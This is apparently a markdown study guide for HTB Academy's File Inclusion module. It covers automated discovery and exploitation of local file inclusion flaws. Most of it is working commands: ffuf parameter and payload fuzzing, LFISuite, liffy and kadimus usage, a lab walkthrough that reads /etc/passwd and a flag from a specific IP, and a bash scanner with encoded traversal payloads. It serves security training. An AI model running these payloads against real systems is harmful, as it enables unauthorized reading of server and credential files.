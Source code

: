 # Automated Scanning & Tools - HTB Academy Guide

## Overview

Automated tools and techniques for discovering LFI vulnerabilities and escalating them efficiently across large applications and networks.

---

## Parameter Discovery & Fuzzing

### Hidden GET/POST Parameter Discovery

**Using ffuf for Parameter Fuzzing:**
```bash
# Discover hidden GET parameters
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
     -u "http://target.com/index.php?FUZZ=test" \
     -mc 200 \
     -fs 0

# Discover POST parameters
ffuf -w burp-parameter-names.txt:FUZZ \
     -X POST \
     -d "FUZZ=test" \
     -u "http://target.com/index.php" \
     -mc 200
```

**HTB Academy Lab Example:**
```bash
# Target: 83.136.254.199:58743
# Discovery phase
ffuf -w burp-parameter-names.txt:FUZZ \
     -u "http://83.136.254.199:58743/index.php?FUZZ=test" \
     -mc 200 -fs 1935

# Results show parameter with different response size
```

---

## LFI Wordlist Fuzzing

### Comprehensive LFI Testing

**Basic LFI Fuzzing:**
```bash
# Test common LFI payloads
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
     -u "http://target.com/index.php?file=FUZZ" \
     -mc 200

# Linux-specific payloads
ffuf -w LFI-gracefulsecurity-linux.txt:FUZZ \
     -u "http://target.com/lfi.php?page=FUZZ" \
     -mc 200
```

**Multi-Stage Discovery:**
```bash
# Stage 1: Baseline response size
ffuf -w lfi-payloads.txt:FUZZ \
     -u "http://target.com/lfi.php?file=FUZZ" \
     -mc 200 -fs 1337

# Stage 2: Filter successful hits
ffuf -w successful-payloads.txt:FUZZ \
     -u "http://target.com/lfi.php?file=FUZZ" \
     -mc 200 -fs 1337,1935
```

---

## Server File Discovery

### Webroot and Configuration File Discovery

**Common Configuration Files:**
```bash
# Apache configurations
ffuf -w apache-configs.txt:FUZZ \
     -u "http://target.com/lfi.php?file=FUZZ"

# PHP configuration discovery
ffuf -w php-configs.txt:FUZZ \
     -u "http://target.com/lfi.php?file=../../../../FUZZ"
```

---

## Automated LFI Tools

### Professional LFI Exploitation Tools

**LFISuite:**
```bash
# Installation
git clone https://github.com/D35m0nd142/LFISuite.git
cd LFISuite
python3 lfisuite.py

# Usage
python3 lfisuite.py -u "http://target.com/lfi.php?file=" -l linux
```

**liffy:**
```bash
# Advanced LFI exploitation framework
git clone https://github.com/hvqzao/liffy.git
python3 liffy.py -U "http://target.com/lfi.php?file=FUZZ"
```

**kadimus:**
```bash
# LFI/RFI scanner and exploiter
kadimus -u "http://target.com/lfi.php?file=" -A
```

---

## HTB Academy Automated Scanning Lab

### Complete 4-Stage Solution

**Target:** 83.136.254.199:58743  
**Objective:** Use automated tools to find parameters, test LFI, and extract flag

**Stage 1: Parameter Discovery**
```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
     -u "http://83.136.254.199:58743/index.php?FUZZ=test" \
     -mc 200 -fs 1935

# Result: 'language' parameter found (different response size)
```

**Stage 2: LFI Payload Testing**
```bash
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
     -u "http://83.136.254.199:58743/index.php?language=FUZZ" \
     -mc 200 -fs 1935

# Result: Multiple successful payloads with response size != 1935
```

**Stage 3: Filter and Identify Working Payloads**
```bash
# Focus on payloads that returned different response sizes
# Test specific payload manually
curl -s "http://83.136.254.199:58743/index.php?language=../../../../etc/passwd" | wc -c
```

**Stage 4: Flag Extraction**
```bash
# Use working payload to find and read flag
ffuf -w common-flag-locations.txt:FUZZ \
     -u "http://83.136.254.199:58743/index.php?language=FUZZ" \
     -mc 200 -fs 1935
```

---

## Custom Automation Scripts

### Advanced Fuzzing Techniques

**Multi-Parameter Testing:**
```bash
# Create custom script for complex testing
cat << 'EOF' > lfi_scanner.sh
#!/bin/bash
TARGET=$1
PARAMS=("file" "page" "include" "path" "dir" "lang" "language")
PAYLOADS=("../../../../etc/passwd" "....//....//etc/passwd" "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd")

for param in "${PARAMS[@]}"; do
    for payload in "${PAYLOADS[@]}"; do
        echo "Testing: $param = $payload"
        curl -s "$TARGET?$param=$payload" | grep -q "root:" && echo "SUCCESS!"
    done
done
EOF
chmod +x lfi_scanner.sh
```

---

*[Content continues with more tools and techniques...]*

*This guide covers automated scanning techniques from HTB Academy's File Inclusion module.* 
